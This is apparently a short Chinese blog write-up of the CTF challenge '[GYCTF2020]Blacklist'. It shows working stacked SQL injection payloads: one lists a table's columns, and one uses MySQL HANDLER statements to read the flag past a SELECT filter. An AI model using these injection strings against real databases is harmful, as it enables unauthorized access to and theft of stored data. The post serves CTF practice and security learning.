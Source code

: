 ```yaml
---
title: '[GYCTF2020]Blacklist'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-07-16 23:09:27
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/fwewqfgwrg.jpg
---
```

这道题好像在哪见过，应该是上次强网杯的那个堆叠注入。
1';show columns from FlagHere;#

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200716231845.png)

flag就在这里，但是select被过滤了，这里要利用HANDLER

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200716231935.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200716232140.png)

1';handler FlagHere open;handler FlagHere read first;Handler FlagHere close;#
